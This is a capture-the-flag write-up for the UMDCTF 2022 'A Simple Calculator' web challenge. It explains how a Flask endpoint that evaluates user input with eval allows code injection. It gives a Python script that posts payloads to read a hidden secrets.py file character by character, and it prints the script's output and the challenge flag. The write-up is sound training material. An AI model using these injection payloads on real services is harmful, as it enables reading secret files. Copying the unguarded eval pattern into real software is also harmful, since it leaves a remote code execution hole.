 ```yaml
---
layout: post
title:  "A Simple Calculator"
author: "UMDCTF 2022 (shadow, gary)"
date:   2022-03-05 23:29:13 +0000
categories: ctf umdctf web
description: "a simple writeup"
---
```

*[Challenge](https://calculator-3tjck.ondigitalocean.app/), [Source](https://umdctf.io/files/6489ffca545a610f3080620dc86169c7/A_Simple_Calculator.zip?token=eyJ1c2VyX2lkIjoxMDg1LCJ0ZWFtX2lkIjo2NjksImZpbGVfaWQiOjcwfQ.YiPyIw.mxMGnS0K6NK8cFZG422WJ8_wTmQ)*  

**TL;DR**: Sending a POST request to /calc allows arbitrary Python code to be executed due to the dangerous `eval` function. Use this to read `secrets.py` (where the flag is hidden), bypassing the output being casted to an integer by using the `.index` method to slowly leak the file.  

*Edit: It's a lot quicker to just use `ord` on each character.*

---  

## Inititation

> Calc you later! :)

The website presents itself as a calculator where you can perform simple arithmetic calculations. Going into inspect element and viewing the network tab shows that whenever you enter a calculation, a POST request is sent to the /calc endpoint, with the JSON data of your calculation.  

![](/assets/images/ctf/umdctf/a_simple_calculator/1.png)

![](/assets/images/ctf/umdctf/a_simple_calculator/2.png)  

We are given the relevant code in `app.py`:  

```python
@app.route('/calc', methods=['POST'])
def calc():
    val = 0
    try:
        z(request.json['f'])
        val = f"{int(eval(request.json['f']))}"
    except Exception as e:
        val = 0

    response = app.response_class(
        response=json.dumps({'result': val}),
        status=200,
        mimetype='application/json'
    )
    return response
```  

Note the "eval". We control the input as we supply the request json, and there seem to be no restrictions on the environment in which the code is executed. Executing random commands supplied by the user seems pretty bad.  

---  

## Exploitation

Now that we have a clear weakness to exploit, let's see what we want to do with it. `secrets.py` has a variable called `FLAG` which looks interesting, so let's try to read the contents of that file.  

An issue might be that the output of whatever is `eval`ed is casted to `int`, but as we only want the first line (the line with `FLAG =`), that can be bypassed by using `.index`, which returns the index of a substring in a string, and -1 otherwise.  

Therefore, we can slowly build up the file by bruteforcing different characters and seeing if they return 0. If they don't, they aren't at the start of the file and we don't care about them. If they do, then we can add that to a string of known characters that begin the file, and then bruteforce the string + next character, and then the string + next, etc... until we build up the file!  

Here's my code to automate this:  	

```python
import requests
from string import printable as p

url = "https://calculator-3tjck.ondigitalocean.app/"

s = requests.session()

p = p[:-6]

# We already know that the file begins with FLAG = '
current = "FLAG = '"
char = ""
i = 0

s = requests.session()

while True:

	char = p[i]

	json = {"f":f""" open("secrets.py").read().index("{current+char}") """}
	r = s.post(url+"calc", json=json)

	if r.text.split(":")[1][2:-2] == "" or int(r.text.split(":")[1][2:-2]) != 0:
		# It's not 0, so we don't care
		i += 1

	else:
		# string + character begins the file, so we concatenate it to our current string
		i = 0
		current += char
		print(current)
		if char == "'":
			# Finished calculating the flag
			print("Done")
			break
```

```
FLAG = 'U
FLAG = 'UM
FLAG = 'UMD
FLAG = 'UMDC
FLAG = 'UMDCT
FLAG = 'UMDCTF                                                                              
FLAG = 'UMDCTF{
FLAG = 'UMDCTF{w
FLAG = 'UMDCTF{w0
FLAG = 'UMDCTF{w0w
FLAG = 'UMDCTF{w0w_
FLAG = 'UMDCTF{w0w_b
FLAG = 'UMDCTF{w0w_br
FLAG = 'UMDCTF{w0w_bru
FLAG = 'UMDCTF{w0w_brut
FLAG = 'UMDCTF{w0w_brut3
FLAG = 'UMDCTF{w0w_brut3f
FLAG = 'UMDCTF{w0w_brut3f0
FLAG = 'UMDCTF{w0w_brut3f0r
FLAG = 'UMDCTF{w0w_brut3f0rc
FLAG = 'UMDCTF{w0w_brut3f0rc3
FLAG = 'UMDCTF{w0w_brut3f0rc3i
FLAG = 'UMDCTF{w0w_brut3f0rc3in
FLAG = 'UMDCTF{w0w_brut3f0rc3ing
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4c
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ct
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4l
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4ll
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0r
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rk
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}
FLAG = 'UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}'
Done
```  

```
Flag: UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}
```

